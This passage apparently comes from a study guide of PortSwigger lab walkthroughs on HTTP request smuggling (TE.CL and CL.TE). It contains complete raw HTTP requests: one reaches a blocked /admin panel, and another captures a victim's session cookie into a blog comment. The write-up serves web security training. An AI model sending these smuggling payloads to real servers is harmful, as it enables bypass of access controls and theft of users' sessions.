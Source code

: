 ![te.cl.multicase-smuggle.png](images/te.cl.multicase-smuggle.png)  

>When sending the `/admin/delete?username=carlos` to delete user, the transfer encoding hex length is changed from `71` to `88` hexadecimal value to include extra smuggled request size.  

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)  

### CL.TE multiCase - Admin blocked  

>When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner ***identify*** the vulnerability as `CL.TE multiCase (delayed response)`.  

>To access the admin panel, send below request twice, adding the second header ```Content-Length: 10``` prevent the HOST header conflicting with first request.  

```html
POST / HTTP/1.1
Host: TARGET.net
Cookie: session=waIS6yM79uaaNUO4MnmxejP2i6sZWo2E
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
tRANSFER-ENCODING: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```  

>On the second time the request is send the admin portal is returned in response.  

![cl.te multicase admin blocked](images/cl.te-multicase-admin-blocked.png)  

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  

### CL.TE multiCase - Content-Length

>Large Content-Length to capture victim requests. Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to **798**, then smuggle POST request to the back-end server.

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=HackerCurrentCookieValue

```